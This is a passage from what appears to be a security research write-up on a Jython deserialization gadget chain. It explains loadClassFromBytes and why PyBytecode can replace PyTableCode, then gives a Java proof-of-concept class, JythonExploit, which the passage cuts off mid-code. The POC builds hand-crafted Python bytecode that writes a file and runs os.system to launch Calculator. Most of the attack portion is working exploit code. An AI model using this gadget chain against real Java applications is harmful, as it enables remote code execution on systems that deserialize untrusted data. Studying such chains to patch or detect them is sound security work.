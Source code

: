 ```java
public Class<?> loadClassFromBytes(String name, byte[] data) {
    if (name.endsWith("$py")) {
        try {
            ClassReader cr = new ClassReader(data);
            name = cr.getClassName().replace('/', '.');
        } catch (RuntimeException var4) {
        }
    }

    Class<?> c = this.defineClass(name, data, 0, data.length, this.getClass().getProtectionDomain());
    this.resolveClass(c);
    return c;
}
```

Although `PyFunctionTable` implements the `Serializable` interface, the dynamically loaded classes cannot go through the serialization and deserialization process. For dynamically generated classes, the `ClassLoader` used in the deserialization process cannot find this class object. Therefore, you can use `PyBytecode` to replace `PyTableCode` as `PyCode` of `PyFunction`. You only need to initialize the bytecode of malicious `python` code into `PyBytecode`, and then use `PyBy
tecode` to create `PyFunction`.

# POC

```java
package org.h3rmesk1t.Jython;

import org.python.core.*;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Proxy;
import java.math.BigInteger;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 10:36 am
 */
public class JythonExploit {

    public static void main(String[] args) throws Exception {

        String path = "/Users/h3rmesk1t/Downloads/123.py";
        String code = "import os\nos.system('open -a Calculator.app')";

        String pythonByteCode = "7400006401006402008302007D00007C0000690100640300830100017C0000690200830000017403006401008301000164000053";

        // Initialize parameters
        PyObject[] consts = new PyObject[]{new PyString(""), new PyString(path), new PyString("w+"), new PyString(code)};
        String[] names = new String[]{"open", "write", "close", "execfile"};

        // Initialize PyBytecode
        PyBytecode bytecode = new PyBytecode(2, 2, 10, 64, "", consts, names, new String[]{"", ""}, "noname", "<module>", 0, "");
        Field field = PyBytecode.class.getDeclaredField("co_code");
```